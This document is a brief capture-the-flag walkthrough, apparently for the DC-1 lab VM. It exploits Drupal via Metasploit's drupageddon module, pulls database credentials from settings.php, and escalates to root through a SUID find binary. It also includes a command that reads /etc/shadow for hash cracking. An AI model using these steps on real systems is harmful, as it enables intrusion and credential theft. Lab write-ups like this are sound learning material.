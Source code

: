 #used metasploit's:
	exploit/multi/http/drupal_drupageddon and got shell
	used shell to get nc shel so i can stablize it

#stablied shell

#got flag1.txt:
	Every good CMS needs a config file - and so do you.

#config of drupal is in sites/default/settings.php

#got flag2:
	Brute force and dictionary attacks aren't the
	only ways to gain access (and you WILL need access).
	What can you do with these credentials?

#also got database user/pass:
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',

#loging in database:
	mysql -u dbuser -p
	password: R0ck3t

#found flag3 in the table node:
	SELECT * FROM node;

#flag3:
	Special PERMS will help FIND the passwd — but you’ll need to -exec that command to work out how to get what’s in the shadow

#used find command and found 'find' in suid:
	find / -perm -u=s 2>/dev/null

#got effective uid of root

#got flag4.txt:
	Can you use this same method to find or access the flag in root?
	Probably. But perhaps it's not that easy.  Or maybe it is?

#flag5.txt:
	Well done!!!!
	Hopefully you've enjoyed this and learned some new skills.
	You can let me know what you thought of this little journey
	by contacting me via Twitter - @DCAU7



#one more way to get root:
	use the command:
	find /etc/shadow -type f -exec cat ‘{}’ \;
	this gives the /etc/shadow file
	can use it to unshadow and crack using john/hashcat

	(btw, flag4 user pass is 'orange')